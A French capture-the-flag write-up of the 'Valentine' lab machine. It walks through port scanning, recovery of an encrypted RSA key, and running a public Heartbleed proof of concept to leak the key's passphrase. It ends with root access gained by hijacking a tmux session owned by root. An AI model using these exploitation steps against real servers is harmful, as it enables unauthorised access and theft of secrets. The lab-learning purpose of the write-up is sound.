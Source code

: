 # Valentine - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-11 10:15 EST
Nmap scan report for 10.10.10.79
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_ssl-date: 2023-03-11T09:15:56+00:00; -5h59m42s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -5h59m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.96 seconds
```

On va donc sur le site

On lance un gobuster en fond

```bash
/index.php            (Status: 200) [Size: 38]
/.htaccess            (Status: 403) [Size: 288]
/.                    (Status: 200) [Size: 38] 
/.html                (Status: 403) [Size: 284]
/.htpasswd            (Status: 403) [Size: 288]
/.htm                 (Status: 403) [Size: 283]
/.htpasswds           (Status: 403) [Size: 289]
/.htgroup             (Status: 403) [Size: 287]
/.htaccess.bak        (Status: 403) [Size: 292]
/.htuser              (Status: 403) [Size: 286]
/.ht                  (Status: 403) [Size: 282]
/.htc                 (Status: 403) [Size: 283]
/.htaccess.old        (Status: 403) [Size: 292]
/.htacess             (Status: 403) [Size: 287]
/decode.php           (Status: 200) [Size: 552]
```

On tombe sur une page qui prétend faire de l’encodage sécurisé, on va donc essayer de faire executer du code

Le gobuster a trouvé cette page:

```bash
http://10.10.10.79/dev/
```

Avec quelques indices qui montrent que l’encodage est fait server side:

```bash
1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

On trouve aussi un fichier hype_key en hexa. Il se trouve que c’est une clé RSA en hexa:

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

En utilisant un peu l’encode, on se rend compte que le résultat est en base64 mais il doit être mixé avec une clé. On essaye de ssh en tant que hype sur la machine avec cette clé. Cela ne fonctionne pas car il faut une passphrase. On va essayer de voir ce qu’il y a sur le port 443. On va essayer des scripts nmap SSL vu que c’est le port en question ([https://nmap.org/nsedoc/scripts/](https://nmap.org/nsedoc/scripts/)):

```bash
nmap -sV --script=ssl-heartbleed 10.10.10.79

443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On va donc essayer d’exploiter avec un exploit:[https://github.com/mpgn/heartbleed-PoC.git](https://github.com/mpgn/heartbleed-PoC.git)

```bash
git clone https://github.com/mpgn/heartbleed-PoC.git

./heartbleed-exploit.py 10.10.10.79
```

On découvre un texte en base64:

```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Qui se traduit en:

```bash
heartbleedbelievethehype
```

On peut maintenant se connecter et on obtient le flag user.

On voit ceci dans le ps -aux

```bash
root        987  0.0  0.1  26416  1672 ?        Ss   01:14   0:01 /usr/bin/tmux -S /.devs/dev_sess
```

[https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0)

```bash
ls -la /.devs/dev_sess
export TERM=xterm
tmux -S /.devs/dev_sess
```